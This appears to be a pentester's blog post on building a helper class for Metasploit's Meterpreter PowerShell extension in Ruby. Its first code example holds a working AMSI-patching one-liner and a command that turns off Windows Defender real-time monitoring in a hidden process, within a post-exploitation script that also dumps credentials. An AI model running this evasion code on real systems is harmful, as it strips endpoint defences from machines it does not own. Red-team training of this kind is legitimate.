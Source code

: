 ```yaml
---
title: "A Class Helper for Metasploit Powershell Extension"
date: 2021-11-28T15:43:16Z
category: Programming
tags: ["OSEP", "PEN300", "Metasploit", "Ruby", "Powershell", "Anti Virus"]
---
```


Three weeks ago or so I started writing a MSF script that automates repeated tasks such running reconnaissance scripts, dumping credentials, listing tokens that could be impersonated and so on.

The current script does all what I have listed above among other things, however, some part of the code generates Powershell cradles and executes Powershell commands, I would say that this is not an elegant way to do it.

For instance, here are two examples where I run Powershell commands:

```ruby
def disable_defender
	patchamsi = "$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like '*iUtils') {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like '*Context') {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1);"
	disableDefenderPWSHCMD = 'Set-MpPreference -DisableRealtimeMonitoring $true'
	arg = "/c powershell -exec bypass -c #{patchamsi}#{disableDefenderPWSHCMD}"
	pwshprocess = session.sys.process.execute('C:\\Windows\\System32\\cmd.exe', arg, { 'Hidden' => true })
	print_good("\tPowershell PID: #{pwshprocess.pid}")
	print_good("\tWindows Defender should be disabled now")
	pwshprocess.close
	rescue Exception => e
		print_error("Disabling Windows Defender failed: #{e}")
end
```

Above code disable Windows Defender using `Set-MpPreference` a Powershell command. I manually generate a Powershell command and then runs it as a child of a CMD process.

The second example is where I would like to know if the current box sets `Powershell Restricted Language`.

```ruby
def is_restricted_language?
	cmd = cmd_exec('powershell -exec bypass -c $ExecutionContext.SessionState.LanguageMode')
	return true if cmd.include? 'ConstrainedLanguage'
	false
end
```

The piece of code above, simply reads the returned value of `$ExecutionContext.SessionState.LanguageMode` then returns a boolean.

Looking at the documentation of Metasploit ruby API, I found a nice API part of `# Rex::Post::Meterpreter::Extensions::Powershell::Powershell` class, the two interesting functions are:
- run_string
- import_file

Those functions will be so handy, specially import_file, no need to a download cradle anymore or even worse downloading a file to disk. 

Both functions takes a hash as a parameter, this makes writing the code more painful, beside the fact that the initialization of the class is done in two steps.

First, we need to load the extension by using `session.core.load("powershell")`  the function returns true if success, false otherwise, hence we need to to check the returned value before initializing the class itself. So I decided to create a class helper that do that at the initialization of the class and then we create a global instance of that class, which I can call when and where I desire.

```ruby
class PowershellHelper
	def initialize(client)
		if client.core.use('powershell')
			print_good("\tPowershell loaded!")
			@powershell = Rex::Post::Meterpreter::Extensions::Powershell::Powershell.new(client)
		else
			print_error("\tLoading Powershell failed")
		end
	end

	def execute_command(command)
		@powershell.execute_string({:code => command})
	end

	def load_script(file)
		if @powershell.import_file({:file => file})
			print_good("\t#{file} imported")
		else
			print_error("\timporting #{file} failed")
		end
	end
end
```

The constructing does the boring task, next I created more named functions that takes strings rather a hash, which makes reduces the calories we burn when typing on the keyboard.

The usage now is more simple, we start by creating a global PowershellHelper instance.

```ruby
$powershell = PowershellHelper.new(session)
```

Then we simply invoke one of the wished function anywhere in the code, below is the altered version of is_restricted_language?(). 

```ruby
def is_restricted_language?
	cmd = $powershell.execute_command('$ExecutionContext.SessionState.LanguageMode')
	return true if cmd.include? 'ConstrainedLanguage'
	false
end
```


references:
- https://www.offensive-security.com/metasploit-unleashed/custom-scripting/ 
- https://mgreen27.github.io/posts/2018/04/02/DownloadCradle.html
- https://www.rubydoc.info/github/rapid7/metasploit-framework/Rex/Post/Meterpreter/Extensions/Powershell/Powershell 
- https://devblogs.microsoft.com/powershell/powershell-constrained-language-mode/
- https://www.windowscentral.com/how-manage-microsoft-defender-antivirus-powershell-windows-10 